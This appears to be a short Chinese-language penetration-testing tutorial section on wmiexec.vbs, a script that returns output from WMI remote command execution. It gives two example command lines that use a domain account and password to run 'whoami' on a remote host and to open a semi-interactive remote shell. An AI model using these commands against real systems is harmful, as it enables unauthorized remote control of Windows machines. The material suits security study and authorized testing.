



# 4.2.2.3 wmiexec.vbs

> 原文：[https://www.zhihuifly.com/t/topic/3425](https://www.zhihuifly.com/t/topic/3425)

#### 4.2.2.3 wmiexec.vbs

wmiexec.vbs 是为了解决 wmic 无法回显命令而开发的一个工具，原理就是把数据先存 到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和 获取半交互式的 shell



```
cscript wmiexec.vbs /cmd 192.168.19.178 adtest\jeff1 test@123 whoami 
```



```
cscript wmiexec.vbs /shell 192.168.19.178 adtest\jeff1 test@123 
```

